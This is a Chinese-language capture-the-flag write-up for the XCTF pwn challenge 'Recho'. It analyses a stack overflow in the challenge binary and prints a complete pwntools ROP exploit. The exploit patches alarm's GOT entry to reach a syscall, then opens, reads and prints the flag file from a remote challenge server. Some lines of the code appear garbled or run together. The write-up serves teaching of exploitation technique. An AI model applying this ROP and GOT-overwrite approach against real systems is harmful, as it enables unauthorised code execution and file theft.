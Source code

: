 # Recho

题目来源：https://adworld.xctf.org.cn/task/

这道题目别看题面非常短，但是要想真正做出这道题很难。漏洞的利用很好找，但是能够真正直接利用漏洞非常困难。先简单看一下安全防护：

```
Arch:     amd64-64-little                                               
RELRO:    Partial RELRO                                                 
Stack:    No canary found                                               
NX:       NX enabled                                                      
PIE:      No PIE (0x400000)
```

看了防护措施应该是存在栈溢出的问题，接着看一下源代码：

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char nptr; // [rsp+0h] [rbp-40h]
  char buf[40]; // [rsp+10h] [rbp-30h]
  int v6; // [rsp+38h] [rbp-8h]
  int v7; // [rsp+3Ch] [rbp-4h]

  Init();
  write(1, "Welcome to Recho server!\n", 0x19uLL);
  while ( read(0, &nptr, 0x10uLL) > 0 )
  {
    v7 = atoi(&nptr);
    if ( v7 <= 15 )
      v7 = 16;
    v6 = read(0, buf, v7);
    buf[v6] = 0;
    printf("%s", buf);
  }
  return 0;
}
```

分析一下代码，首先循环输入最多 16 个字节的字符串数据，这个数据最终会被转换为数字，随后从标准输入中读入这么多个字符，然后输出。

代码逻辑非常简单，但是漏洞也非常明显，因为 buf 没有限制读入数据的多少，所以造成了栈溢出，而且可以覆盖返回地址来控制代码流程。不过由于在该文件中没有出现 system 等函数，所以先考虑能否泄露 libc。其实按照常理来说是可以实现的，可以使用 write 函数 再配合 got 表就可以解决，一开始也确实是这么思考的。

但是这道题的问题在于，由于循环输入的缘故，所以程序是无法正常走到 return 0 的。网上的说法是，在 pwntools 中有一个 shutdown 方法可以切断循环的过程，但是这意味着程序直接结束了。而泄露 libc 的方法是分两步的，所以在一次操作中无法完成。

因此这道题的目标就是需要在一次 ROP 中构造能够获取 flag 的代码。

----

那么这道题也是看了答案，觉得非常的巧妙，其实如果在一次构造中完成对 flag 的读写，过程应该如下：

```
fd = open("flag", READONLY)
read(fd, buf, cnt)
printf(buf)
```

如果能够构造以上流程，也就输出了最终的 flag。并且通过 IDA 的观察，也能够发现，在 data 区域是有 flag 字符串的，这是一个提示。

在该程序中已经有了 read 和 printf， 但是缺少 open。巧妙的是，由于 open 是系统调用，可以通过系统调用号来调用，即使用 system 指令，而 open 的调用号是 2(eax)。

获取 system 指令的方法也很特殊，这也是这个题目有又一个凑巧的地方。比如像 alarm 函数也是一个系统调用，所以其实在 libc 的源码中会用到 system 指令，一个想法是调用 alarm 的时候实际调用它的 system 指令，即让 alarm 的 got 表的内容指向函数中的 system 指令的位置。但是如何修改 got 表中的位置呢，在该程序中有这样的 gadget：

```
add byte ptr [rdi], al ; ret
```

如果此时 rdi 是 alarm 的 got 表中的内容，al 中存放的是 offset，那么就能顺利修改调用的指令位置，可以看到正确的 exp 如下：

```
from pwn import *                                                       
from LibcSearcher import *                                            
import time                                                
context.log_level = 'debug'                                           
filepath = "../../mnt/c/Users/lenovo/Desktop/773a2d87b17749b595ffb937b4d29936
elf = ELF(filepath)                                                     
alarm_got = elf.got["alarm"]                                                             alarm_plt = elf.plt["alarm"]                                       
read_plt = elf.plt["read"]                                        
printf_plt = elf.plt["printf"]                                    
pop_rdi = 0x004008a3                                           
pop_rsi_r15 = 0x004008a1                                           
pop_rdx = 0x004006fe                                                 
pop_rax = 0x004006fc                                            
add_rdi = 0x0040070d                                                
flag_str = 0x00601058                                                
buf = 0x00601090                                                                                                                                                
payload1 = 'a' * 0x38 
# 这里在修改 alarm 的 got
# 0x5 是偏移，system 指令在 alarm 函数向后偏移5个单位的地址处
payload1 += p64(pop_rax) + p64(0x5)      
payload1 += p64(pop_rdi) + p64(alarm_got)                                                 
payload1 += p64(add_rdi)
# 执行 open
payload1 += p64(pop_rax) + p64(0x2)                        
payload1 += p64(pop_rdi) + p64(flag_str)                         
payload1 += p64(pop_rdx) + p64(0)                               
payload1 += p64(pop_rsi_r15) + p64(0) + p64(0)                    
payload1 += p64(alarm_plt)                                                               # 执行 read
payload1 += p64(pop_rdi) + p64(0x3)                      
payload1 += p64(pop_rsi_r15) + p64(buf+0x500) + p64(0)            
payload1 += p64(pop_rdx) + p64(0x30)                              
payload1 += p64(read_plt)                                                                 # 执行 print
payload1 += p64(pop_rdi) + p64(buf+0x500) + p64(printf_plt)

conn = remote("220.249.52.133", 57906)               
print conn.recvuntil("Welcome to Recho server!\n")
#这里我吃了大亏，如果使用"0x200"而不是str(0x200)会不能通过atoi
conn.sendline(str(0x200))                        
payload1 = payload1.ljust(512, '\x00')      
conn.send(payload1)                                        
conn.recv()                                                     
conn.shutdown('send')                                            
conn.interactive()                                         
conn.close() 
```

